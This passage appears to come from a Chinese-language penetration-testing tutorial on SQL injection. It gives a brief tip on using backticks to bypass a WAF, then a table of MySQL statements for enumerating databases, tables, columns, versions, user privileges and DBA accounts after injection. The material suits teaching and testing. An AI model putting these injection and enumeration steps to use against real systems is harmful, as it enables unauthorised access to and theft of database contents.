 #### 11、反引号绕过

```sql
特殊符号反引号也能绕过waf
```

![img](../images/【原创】渗透思路-SQL注入详解/t01671b358e6d08e61a.png)



## 六、各类数据库注入语句

### （一）MySQL数据库

| **释义**      | **SQL语句**                                                  | **其他**              |
| :------------ | :----------------------------------------------------------- | :-------------------- |
| 当前数据库    | SELECT database()                                            | -                     |
| 所有数据库    | SELECT schema_name FROM information_schema.schemata          | #版本>5.0             |
| -             | SELECT distinct(db) FROM mysql.db                            | #管理员权限才可以执行 |
| 查询表名      | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | -                     |
| 查询列名      | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | -                     |
| 获取版本      | SELECT @@version                                             | -                     |
| 当前用户      | SELECT user()                                                | -                     |
| -             | SELECT system_user()                                         | -                     |
| 用户权限      | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges | #用户权限             |
| -             | SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges | #数据库权限           |
| -             | SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges | #字段的权限           |
| 列出DBA账户   | SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’     | -                     |